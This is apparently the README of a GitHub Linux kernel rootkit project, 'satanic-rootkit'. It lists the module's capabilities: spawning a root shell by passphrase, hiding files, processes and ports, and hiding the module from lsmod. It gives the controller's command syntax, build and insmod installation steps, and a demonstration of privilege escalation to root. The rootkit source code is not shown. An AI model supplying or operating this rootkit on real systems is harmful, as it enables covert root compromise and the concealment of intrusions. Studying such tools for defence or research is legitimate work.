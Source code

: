 <div align="center">
  <img src="https://github.com/aesophor/satanic-rootkit/blob/master/.meta/banner.jpg">
  <b>CAUTION: Do NOT test this on physical machines!</b>
</div>

## Overview
* Local privilege escalation (grant root shell)
* File/directory hiding **by absolute path**
* Process hiding by PID
* Port hiding
* Hides the rootkit module itself
* ...

## Usage
After inserting `satan.ko` into Linux kernel, one can use `satanist.py` to command the rootkit.
```
> ./satanist.py --help                 
usage: ./satanist.py <command> [argument]

--privesc <passphrase>     -- Spawn a root shell (bash).
--file-hide <path>         -- File/directory hiding by absolute path.
--file-unhide <path>       -- File/directory unhiding by absolute path.
--proc-hide <pid>          -- Process hiding by PID.
--proc-unhide <pid>        -- Process unhiding by PID.
--port-hide <pid>          -- Port hiding by port number.
--port-unhide <pid>        -- Port unhiding by port number.
--mod-hide <pid>           -- Module hiding (hide itself from lsmod).
--mod-unhide <pid>         -- Module unhiding (unhide itself from lsmod).

-h --help                  -- Help message.
-v --version               -- Version info.
```

## Tested On
* Debian 9 stretch 4.9.0-11

## Build Requirements
* gcc
* GNU Make
* Linux headers

## Installation
1. Build kernel module.
```
$ git clone https://github.com/aesophor/satanic-rootkit.git
$ cd satanic-rootkit
$ make
```

2. Insert kernel module as root.
```
root# insmod satan.ko
```

3. Run satanist.py as normal user to command the rootkit.
```
$ ./satanist.py --help
```

4. Profit (?)
```
$ ./satanist.py --privesc 'Hail Satan!'
# whoami
root
```

## License
Available under [GPL-2.0 License](https://github.com/aesophor/satanic-rootkit/blob/master/LICENSE)
